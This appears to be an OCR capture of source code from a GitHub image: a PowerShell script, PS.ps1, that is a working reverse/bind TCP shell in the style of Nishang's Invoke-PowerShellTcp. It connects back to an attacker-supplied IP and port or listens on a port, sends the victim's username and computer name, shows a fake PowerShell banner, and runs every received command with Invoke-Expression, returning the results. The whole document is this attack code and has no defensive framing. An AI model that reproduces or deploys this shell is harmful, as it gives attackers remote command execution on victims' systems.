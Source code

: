 ```powershell title="PS.ps1"

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )
    try
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()
            $client = $listener.AcceptTcpClient()
        }

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        $client.Close()
```
